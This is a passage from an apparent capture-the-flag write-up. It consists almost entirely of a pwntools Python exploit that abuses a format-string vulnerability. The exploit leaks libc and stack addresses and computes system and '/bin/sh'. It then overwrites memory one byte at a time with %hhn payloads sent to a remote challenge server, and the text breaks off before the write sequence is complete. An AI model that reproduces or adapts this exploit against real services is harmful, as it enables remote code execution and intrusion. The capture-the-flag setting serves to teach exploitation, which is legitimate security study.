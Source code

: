 then 输入quit

exploit：
```python
from pwn import *
def lv_up(num):
    while(num<0 or num > 255):
		if(num<0):
			num=num+256;
		if(num>255):
			num=num-256;
	return num;
'''
elf=ELF('/lib/i386-linux-gnu/libc.so.6')
p=process('./4-4')
'''
elf=ELF('./libc6_2.23-0ubuntu9_i386.so')
p=remote('121.42.189.18',10009)
#'''
print p.recvline();
print p.recvline();
print p.recvline();
payload='%15$p%6$p'
p.sendline(payload)
data=p.recvuntil('8\n')
im=0xf7
im2=0xf3
leak_libc=int(data[:10],16)
leak_stack=int(data[10:-1],16)
log.info("leak_libc:%s",hex(leak_libc))
log.info("leak_stack:%s",hex(leak_stack))
leakfunc=leak_libc-im
base=leakfunc-elf.symbols['__libc_start_main']
elf.address=base
system=elf.symbols['system']
bash= elf.search('/bin/sh').next()
s1=system&0xff
s2=system&0xff00
s2=s2>>8
s3=system&0xff0000
s3=s3>>16
s4=system&0xff000000
s4=s4>>24
b1=bash&0xff
b2=bash&0xff00
b2=b2>>8
b3=bash&0xff0000
b3=b3>>16
b4=bash&0xff000000
b4=b4>>24
off=leak_stack&0xff;
off=off-16;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(s1-off-4))
p.sendline(payload)
p.recv()
off+=1;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(s2-off-4))
p.sendline(payload)
p.recv()
off+=1;
payload="%c%c%c%c%{}c%hhn%{}c%10$hhn".format(off,lv_up(s3-off-4))
p.sendline(payload)
p.recv()
off+=1;
```